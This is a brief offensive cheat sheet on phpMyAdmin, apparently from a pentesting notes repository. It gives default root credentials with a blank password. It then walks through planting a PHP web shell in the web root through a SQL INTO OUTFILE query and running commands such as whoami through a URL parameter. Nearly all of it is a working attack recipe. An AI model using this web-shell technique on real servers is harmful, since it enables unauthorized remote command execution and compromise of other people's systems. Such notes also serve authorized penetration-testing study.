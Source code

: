 # phpMyAdmin

## Enumeration

Default credentials: `root:<blank>`



## Exploitation

### Web Shell

1. Identify the web server path: Ex: Wamp server is C:/wamp/www/
2. Create web shell file via SQL query in phpMyAdmin
   1. `select "<?php system($_GET['cmd']); ?>" into outfile "C:/wamp/www/shell.php"`
3. Navigate to the path of the uploaded shell and execute a command:
   1. http://\<wamp server URL>/shell.php?cmd=whoami
4. And if successful, command execution is available.

